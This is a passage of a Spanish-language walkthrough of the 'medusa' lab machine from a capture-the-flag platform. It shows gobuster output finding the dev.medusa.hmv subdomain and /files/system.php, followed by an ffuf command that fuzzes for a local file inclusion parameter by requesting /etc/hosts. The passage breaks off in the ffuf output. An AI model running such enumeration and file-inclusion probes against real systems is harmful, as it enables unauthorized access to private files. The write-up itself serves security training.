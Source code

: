 ```bash
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.medusa.hmv Status: 200 [Size: 1973]
===============================================================
Finished
===============================================================
```

Dentro de este, de nuevo fuzzeando encuentro un directorio interesante `/files` con una ruta `/files/system.php`.

```bash
❯ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u http://dev.medusa.hmv/files/ -t 200 -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.medusa.hmv/files/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/system.php           (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 0]
Progress: 41853 / 2370510 (1.77%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 41946 / 2370510 (1.77%)
===============================================================
Finished
===============================================================
```

## Local File Inclusion (LFI)

Encuentro que en esta última ruta existe un LFI con el parámetro **view**.

```bash
❯ ffuf -u 'http://dev.medusa.hmv/files/system.php?FUZZ=/etc/hosts' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fw 1

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dev.medusa.hmv/files/system.php?FUZZ=/etc/hosts
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
```